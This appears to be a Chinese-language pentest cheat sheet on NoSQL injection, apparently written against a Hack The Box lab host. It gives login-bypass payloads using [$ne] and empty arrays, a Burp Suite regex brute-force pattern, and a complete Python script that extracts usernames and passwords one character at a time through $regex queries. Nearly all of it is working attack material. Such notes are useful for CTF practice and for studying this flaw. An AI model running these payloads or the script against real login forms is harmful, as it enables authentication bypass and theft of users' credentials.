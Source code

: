 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits

**绕过登录**
原 :  username=qwe&password=qwe&login=login
注 :  username[$ne]=qwe&password[$ne]=qwe&login=login
[$ne] , 不等于

https://github.com/C4l1b4n/NoSQL-Attack-Suite
```python
./nosql-login-bypass.py -t http://staging-order.mango.htb -u username -p password -o "login=login"
```

- 基本绕过尝试
```sql
username=admin&password[]=
```


**爆破凭据** 
- 使用 burpsuite，选中 `&data&` , a-Z 爆破
```
username[$regex]=^&data&.*&password[$ne]=qwe&login=login
```

- 使用 python 脚本爆破
https://github.com/youngowl13/nosqli-exploit/blob/master/nosqli.py
```python
import requests
import string

url = "http://staging-order.mango.htb/" #enter the url #enter the url
headers = {"Host": "staging-order.mango.htb"} #enter the host value
cookies = {"PHPSESSID": "gb181u8ebi4pavukj9ualeiot2"} #enter cookies

possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"",
"login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers,
cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]: 
           print("Found password "+password[1:].replace("\\",
"")+" for username "+username)
           return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*",
"login": "login"}
    for c in possible_chars: 
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers,
cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params,
headers=headers, cookies=cookies, verify=False,
allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break
                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```

